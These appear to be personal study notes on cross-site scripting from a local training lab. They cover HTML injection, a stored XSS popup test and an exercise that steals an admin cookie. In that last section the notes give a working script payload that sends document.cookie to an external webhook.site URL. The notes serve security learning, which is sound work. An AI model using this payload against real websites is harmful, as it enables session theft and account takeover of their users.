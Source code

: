 when you are testing for XSS:
you can first check for -->  <span style="color:#00b050">HTML injection</span>
=>
- `<h1> test </h1>`
  ![[Pasted image 20240308105757.png]]
=>
it works

=>
let's try with:
- `<script> prompt(1) </script>`
  it works
  =>
	- <span style="background:#fff88f">try to refresh the page for Container 2 session</span>
	  =>
	  you'll see that -->  <span style="color:#00b050">the prompt will open even for the second user</span> 
	  =>
	  every user that will come to this page -->  it will affected by this injection

##### XSS 0x03
- set up [[cheat#Firefox Multi-Account Containers|firefox multicontainer plugin]]
- open 2 page as the 2 containers
	- into container 2 connect to -->  http://localhost/labs/x0x03_admin.php
goal:
- still the admin cookie
- don't popup in alert box -->  but EXFILTRATE IT
  =>
	- from container 1 -->  we will create the payload
	- from container 2 -->  we will trigger the payload  

=>
if you send some data from the input -->  you'll see it inside the admin page
=>
let's try with HTML injection:
 `<h1> test </h1>`
 -->  <span style="color:#00b050">both input are vulnerable</span> 

###### Popup Cookies
let's first popup the cookie:
`<script> alert(document.cookie)</script>`
=>
if you refresh the container 2 -->  <span style="color:#00b050">you'll see a popup with the admin cookie</span> 
=>
###### Exfiltrate Cookies
- open [[cheat#Webhook.site|WebHook website]]
- copy the unique URL
- at the end of it -->  `/?`
- type in the vulnerable input
  `<script> var i = new Image; i.src="https://webhook.site/a67abe7f-f8f9-44af-bf90-6f29be6fd833/?"+document.cookie; </script>`
- refresh the admin page
- <span style="color:#00b050">we got the cookie</span> 
  ![[Pasted image 20240308113410.png]]
